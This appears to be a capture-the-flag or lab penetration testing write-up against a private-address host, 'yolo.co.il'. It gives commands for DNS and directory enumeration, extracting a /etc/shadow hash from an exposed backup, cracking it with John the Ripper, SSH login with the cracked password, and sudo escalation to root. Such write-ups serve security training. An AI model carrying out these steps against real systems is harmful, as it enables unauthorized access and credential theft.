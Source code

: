 # Penetration Testing Report - Stage 1

## Target

**Domain:** yolo.co.il  
**IP Address:** 10.1.22.124

## Tools Used

- dnsenum: DNS enumeration tool
- dirbuster: Directory and file brute-forcing tool
- John the Ripper: Password cracking tool
- nmap: Network scanner
- SSH: Secure Shell
- ls: List directory contents

## 1. DNS Enumeration of yolo.co.il

The penetration test began with DNS enumeration of yolo.co.il using dnsenum. This revealed key details such as the IP address and name server information.

**Command:**
```bash
dnsenum --enum yolo.co.il
```

**Output:**
- IP Address of yolo.co.il: 10.1.22.124
- Mail Server: Not found
- Name Server: 10.1.22.124
- Zone Transfer: Connection refused

**Brute-force Subdomain Enumeration Results:**
- admin.yolo.co.il (A record: 10.1.22.124)
- ftp.yolo.co.il (A record: 192.168.2.8)

## 2. Directory Busting of admin.yolo.co.il

**Command:**
```bash
dirbuster -u http://admin.yolo.co.il -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
```

**Result:**
- Directory Found: /admin/backup

## 3. Extracting File from /admin/backup

Inside /admin/backup, a file containing sensitive data was discovered. Analysis of the file revealed an entry from /etc/shadow:

- **User:** dexter
- **Password Hash:** $y$j9T$FVrhmaG8xav3NzNyqvkUN.$cKOnOMgGXDigPZRfgnGLP9egOrZgHmqVmPIOwXgB2zD

## 4. Cracking Password with John the Ripper

**Command:**
```bash
john --format=crypt /path/to/shadow
```

**Output:**
- **Password:** iloveyou1

## 5. SSH Access as dexter

The nmap scan identified the SSH service running on port 2222. Using the cracked credentials, an SSH connection was established.

**Command:**
```bash
ssh dexter@10.1.22.124 -p 2222
```

Successful login was achieved as dexter.

## 6. Privilege Escalation

Upon login, an attempt to escalate privileges was made. The dexter user was found to have sudo access.

**Command:**
```bash
sudo su
```

This granted root access to the system.

## 7. Finding the Flag

With root access, a hidden flag file was located using directory listing commands.

**Command:**
```bash
ls -la
```

**Discovered File:** flag1.txt  
**Flag Content:** flag{hidden_flag_1234}

## Conclusion

The penetration test successfully identified and exploited security weaknesses in yolo.co.il. The key takeaways are:

- DNS enumeration revealed subdomains
- Directory busting exposed a sensitive backup directory
- A password hash was extracted and cracked
- SSH access was gained as dexter
- Privileges were escalated to root
- A hidden flag file was discovered

This assessment highlights vulnerabilities that should be addressed to enhance security.